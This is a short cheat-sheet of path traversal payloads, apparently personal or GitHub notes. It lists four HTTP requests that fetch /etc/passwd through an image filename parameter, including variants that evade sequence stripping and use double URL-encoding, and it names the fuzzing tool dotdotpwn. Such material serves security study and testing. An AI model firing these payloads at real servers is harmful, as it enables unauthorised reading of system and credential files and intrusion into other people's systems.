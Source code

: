 `GET /image?filename=../../../etc/passwd HTTP/1.1`
`GET /image?filename=/etc/passwd HTTP/1.1`
`GET /image?filename=....//....//....//etc/passwd HTTP/1.1` - when sequences are striped
`GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1` - %25 stands for % in url encoding, so when app is decoding url it will get %2f that stands for /

tool for fuzzing path traversal - dotdotpwn
